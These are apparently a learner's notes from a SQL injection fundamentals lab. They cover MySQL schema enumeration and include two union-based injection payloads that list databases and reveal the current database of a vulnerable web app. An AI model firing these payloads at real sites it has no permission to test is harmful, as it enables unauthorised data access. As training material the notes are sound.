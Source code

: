 ```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#output
#+--------------------+
#| SCHEMA_NAME        |
#+--------------------+
#| mysql              |
#| information_schema |
#| performance_schema |
#| ilfreight          |
#| dev                |
#+--------------------+
#6 rows in set (0.01 sec)
```

- `mysql`, `information_schema`, `performance_schema`, and `sys` are all default MySQL databases

Union SQLi Database Enumeration Example:

```sql
test' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![image.png](SQL%20Injection%20Fundamentals%202776c31c8f4a805f81d6ec370c9f38b0/image%207.png)

What database is the web app querying from?

- Use the `database()` function

```sql
test' UNION select 1,database(),2,3-- -
```

![image.png](SQL%20Injection%20Fundamentals%202776c31c8f4a805f81d6ec370c9f38b0/image%208.png)
